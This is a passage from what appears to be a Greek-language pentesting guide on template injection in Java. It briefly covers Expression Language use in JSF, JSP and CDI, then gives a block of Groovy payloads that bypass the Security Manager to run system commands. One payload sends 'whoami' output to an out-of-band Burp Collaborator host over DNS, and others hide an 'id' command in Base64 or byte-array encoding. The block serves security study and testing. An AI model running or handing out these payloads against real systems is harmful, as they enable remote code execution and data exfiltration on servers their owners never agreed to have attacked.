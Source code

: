 - **JavaServer Faces (JSF)**: Χρησιμοποιεί EL για να συνδέσει τα στοιχεία στις σελίδες JSF με τα αντίστοιχα δεδομένα και ενέργειες στο backend.
- **JavaServer Pages (JSP)**: EL χρησιμοποιείται σε JSP για την πρόσβαση και την επεξεργασία δεδομένων εντός των σελίδων JSP, διευκολύνοντας τη σύνδεση των στοιχείων της σελίδας με τα δεδομένα της εφαρμογής.
- **Contexts and Dependency Injection for Java EE (CDI)**: EL ενσωματώνεται με το CDI για να επιτρέπει την απρόσκοπτη αλληλεπίδραση μεταξύ της διαδικτυακής διεπαφής και των managed beans, εξασφαλίζοντας μια πιο συνεκτική δομή εφαρμογής.

Δείτε την παρακάτω σελίδα για να μάθετε περισσότερα σχετικά με την **εκμετάλλευση των ερμηνευτών EL**:

{{#ref}}
el-expression-language.md
{{#endref}}

### Groovy (Java)

Οι παρακάτω παρακάμψεις του Security Manager προήλθαν από αυτήν την [**αναφορά**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).
```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "whoami";
out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
### Άλλο Java
